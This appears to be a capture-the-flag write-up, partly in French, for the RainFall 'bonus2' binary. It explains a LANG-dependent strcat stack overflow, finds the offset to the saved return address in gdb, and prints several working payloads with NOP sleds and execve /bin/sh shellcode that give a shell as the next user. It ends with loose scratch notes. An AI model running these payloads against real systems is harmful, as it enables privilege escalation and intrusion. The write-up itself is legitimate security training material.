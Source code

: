 # bonus02

The program take...

The program has "GCC stack protector support" enabled, so we run `gdb` with `set exec-wrapper env -u LINES -u COLUMNS`.

If `argc` is not equal to 3, the program exit.

In `greetuser` function, we have a `strcat` on a local buffer of 72 bytes. The string concatened with this buffer depends on the environment variable `"LANG"`:

- If `LANG` = `fi`, the concatened string will be "Hyvää päivää " (19 bytes)

- Else if `LANG` = `nl`, the concatened string will be "Goedemiddag! " (14 bytes)

- Else the concatened string will be "Hello " (14 bytes)

In `greetuser` function, we can see that the local buffer begin 76 bytes before the `eip` address:

```bash
Breakpoint 2, 0x080484ee in greetuser ()
(gdb) x $ebp-0x48
0xbffffd30:     134513212
(gdb) x $ebp
0xbffffd78:     -1073742280
(gdb) x $ebp+4
0xbffffd7c:     134514224
(gdb) x/x $ebp+4
0xbffffd7c:     0x08048630
(gdb) i f
Stack level 0, frame at 0xbffffd80:
 eip = 0x80484ee in greetuser; saved eip 0x8048630
 called by frame at 0xbffffe40
 Arglist at 0xbffffd78, args: 
 Locals at 0xbffffd78, Previous frame's sp is 0xbffffd80
 Saved registers:
  ebp at 0xbffffd78, eip at 0xbffffd7c
(gdb) p/d 0xbffffd7c - 0xbffffd30
$2 = 76
```

In the `main` function, we also see that only 40 bytes from the 1st parameter and 32 bytes from the 2nd parameter are copied. So 8 bytes must be added to overwrite `eip`.

- If the `LANG` variable is equal to `fi`, the final string length will be 98 bytes

- Else if the `LANG` variable is equal to `nl`, the final string length will be 92 bytes

- Else the final string length will be 78 bytes, that is too short to overwrite `eip`

We try to overwrite `eip`:

```bash
(gdb) set exec-wrapper env -i LANG="fi"
(gdb) r $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 18 + "BBBB"')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 18 + "BBBB"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) set exec-wrapper env -i LANG="nl"
(gdb) r $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 23 + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "\x41" * 40') $(python -c 'print "\x41" * 23 + "BBBB"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Nous avons donc plusieurs solutions pour ce challenge:

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'") && export LANG="fi" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')

export LANG="fi" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 18 + "\xff\xf4\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 23 + "\x78\xf7\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 23 + "\xff\xf4\xff\xbf"')

bonus2@RainFall:~$ export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���
$ whoami
bonus3
$ echo "You are the bonus3 user"
You are the bonus3 user
$


Premier argument du main dans le main: 0xbfffd836
	Dans la fonction greetuser: 0xbfffd5a0

Le tout dans greetuser: 0xbffff462

0xbffff4f0


r $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x1e\xf5\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

